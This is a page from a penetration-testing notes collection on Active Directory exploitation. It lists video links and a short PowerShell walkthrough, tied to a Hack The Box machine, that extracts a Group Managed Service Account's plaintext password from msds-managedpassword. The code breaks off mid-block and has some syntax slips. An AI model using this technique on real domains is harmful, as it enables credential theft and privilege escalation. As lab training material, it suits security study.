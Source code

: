 ```yaml
---
description: >-
  The fun part. It's time to utilize the information you gathered through
  enumeration to methodically choose a valid exploitation path.
cover: >-
  https://reconshell.com/wp-content/uploads/2021/12/active-directory-controller.jpg
coverY: 0
---
```


# AD Exploitation

## Exploitation/Privilege Escalation

[https://www.youtube.com/watch?v=QfyZQDyeXjQ](https://www.youtube.com/watch?v=QfyZQDyeXjQ)

[https://www.youtube.com/watch?v=pZSyGRjHNO4](https://www.youtube.com/watch?v=pZSyGRjHNO4)

[https://www.youtube.com/watch?v=VLA7x81i5Pw](https://www.youtube.com/watch?v=VLA7x81i5Pw)

[https://www.youtube.com/watch?v=xH5T9-m9QXw](https://www.youtube.com/watch?v=xH5T9-m9QXw)

[https://www.youtube.com/watch?v=o98\_eRt777Y](https://www.youtube.com/watch?v=o98\_eRt777Y)

[https://www.youtube.com/watch?v=\_nJ-b1UFDVM](https://www.youtube.com/watch?v=\_nJ-b1UFDVM)

[https://www.youtube.com/watch?v=xowytiyooBk](https://www.youtube.com/watch?v=xowytiyooBk)

### ReadGMSAPassword

*   This allows an attacker to use the password of a Group Managed Service Account which usually has elevated privileges.

    * HTB Example: _**Search**_

    How-To:

    ```python
    $gmsa Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties 'msds-managedpassword'

    $gmsa

    $mp = $gmsa.'msds-managedpassword'

    $mp

    $mp1 = ConvertFrom-ADManagedPasswordBlob $mp

    $mp1

    $passwd = $mp1.'currentpassword'

    $passwd

    $user 'BIR-ADFS-GMSA$'

    $secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
